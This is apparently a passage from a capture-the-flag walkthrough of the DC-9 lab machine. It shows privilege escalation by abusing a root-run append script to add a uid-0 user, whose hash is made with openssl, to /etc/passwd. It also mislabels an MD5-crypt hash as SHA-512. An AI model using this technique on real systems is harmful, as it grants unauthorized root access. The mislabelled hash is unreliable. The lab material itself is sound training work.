 The file was stripped, I will dynamically analyze it first

```bash
fredf@dc-9:/opt/devstuff$ ltrace
-bash: ltrace: command not found
fredf@dc-9:/opt/devstuff$ strace
-bash: strace: command not found
fredf@dc-9:~$ /opt/devstuff/dist/test/test
Usage: python test.py read append
```

```bash
fredf@dc-9:~$ cd /opt/devstuff/
fredf@dc-9:/opt/devstuff$ ls -latr
total 28
-rw-r--r-- 1 root root  250 Dec 29  2019 test.py
drwxr-xr-x 3 root root 4096 Dec 29  2019 build
-rw-r--r-- 1 root root  959 Dec 29  2019 test.spec
drwxr-xr-x 2 root root 4096 Dec 29  2019 __pycache__
drwxr-xr-x 5 root root 4096 Dec 29  2019 .
drwxr-xr-x 3 root root 4096 Dec 29  2019 dist
drwxr-xr-x 4 root root 4096 Dec 29  2019 ..
```

I can append a user to `/etc/passwd` as root

```bash
fredf@dc-9:/opt/devstuff$ cat test.py

#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

Generate the `sha-512` hash for user password

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ HASH=$(openssl passwd -1 -salt xD xD); echo "bravosec:${HASH}:0:0:root:/root:/bin/bash"
bravosec:$1$xD$AYfq.y7VkkN19TKtRxi2m1:0:0:root:/root:/bin/bash
```

Add a user with root id to `/etc/passwd`
